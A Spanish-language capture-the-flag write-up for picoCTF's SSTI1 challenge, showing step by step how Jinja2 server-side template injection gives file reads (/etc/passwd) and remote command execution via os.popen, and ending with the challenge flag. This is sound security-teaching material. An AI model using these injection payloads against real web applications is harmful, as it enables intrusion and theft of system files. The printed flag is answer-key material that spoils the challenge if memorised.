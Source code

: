 # SSTI1

## Descripcion
I made a cool website where you can announce whatever you want! Try it out!I heard templating is a cool and modular way to build web apps! Check out my website [here](http://rescued-float.picoctf.net:65512/)!
## Solucion
Nos conectamos al reto con el link que nos proporcionan.

Inspeccionamos el codigo fuente para ver si encontramos algo interesante:
```html
<!doctype html> <title>SSTI1</title>  
<h1> Home </h1>  
<p> I built a cool website that lets you announce whatever you want!* </p>  
<form action="/" method="POST"> What do you want to announce: <input name="content" id="announce"> <button type="submit"> Ok </button> </form> <p style="font-size:10px;position:fixed;bottom:10px;left:10px;"> *Announcements may only reach yourself </p>
```

Si buscamos que es SSTI, veremos que es Server Side Template Injection, que de acuerdo a PortSwigger "es cuando un atacante is capaz de usar sintaxis de plantillas nativas para inyectar un payload malicicoso en la plantilla, que despues es ejecutado por el lado del servidor".

Con esto en mente, hay que intentar identificar con que tipo de SSTI1 estamos lidiando, vamos a usar los payloads de: [https://github.com/swisskyrepo/PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings)

Parece que esta usando Python y Jinja2. Si usamos estos comandos obtenemos los resultados correctos:
```python
{{4*4}}[[5*5]] #16[[5*5]]
{{7*'7'}} would result in 7777777 # 7777777 would result in 7777777
{{config.items()}} ## dict_items([('DEBUG', False), ('TESTING', False), ('PROPAGATE_EXCEPTIONS', None), ('SECRET_KEY', None), ('PERMANENT_SESSION_LIFETIME', datetime.timedelta(days=31)), ('USE_X_SENDFILE', False), ('SERVER_NAME', None), ('APPLICATION_ROOT', '/'), ('SESSION_COOKIE_NAME', 'session'), ('SESSION_COOKIE_DOMAIN', None), ('SESSION_COOKIE_PATH', None), ('SESSION_COOKIE_HTTPONLY', True), ('SESSION_COOKIE_SECURE', False), ('SESSION_COOKIE_SAMESITE', None), ('SESSION_REFRESH_EACH_REQUEST', True), ('MAX_CONTENT_LENGTH', None), ('SEND_FILE_MAX_AGE_DEFAULT', None), ('TRAP_BAD_REQUEST_ERRORS', None), ('TRAP_HTTP_EXCEPTIONS', False), ('EXPLAIN_TEMPLATE_LOADING', False), ('PREFERRED_URL_SCHEME', 'http'), ('TEMPLATES_AUTO_RELOAD', None), ('MAX_COOKIE_SIZE', 4093)])
```

Asi que vamos a probar con un payload que nos permita obtener una ejecucion remota de comandos, podemos probar este que es para leer archivos:
```python
{{ get_flashed_messages.__globals__.__builtins__.open("/etc/passwd").read() }}
```

```
# root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin _apt:x:100:65534::/nonexistent:/usr/sbin/nologin
```

Como vemos, tuvimos exito, entonces si ejecutamos el siguiente payload, podemos explotar la vulnerabilidad SSTI llamando os.popen().read():
```python
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
#uid=0(root) gid=0(root) groups=0(root)
```

Y si ahora simplemente lo podemos modificar para ejecutar el comando que queramos:
```python
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('ls').read() }}
#__pycache__
#app.py
#flag
#requirements.txt

{{ self.__init__.__globals__.__builtins__.__import__('os').popen('cat flag').read() }}
# picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_99fe4411}
```

Y asi obtenemos la flag:
```flag
picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_99fe4411}
```
## Notas adicionales

## Referencias
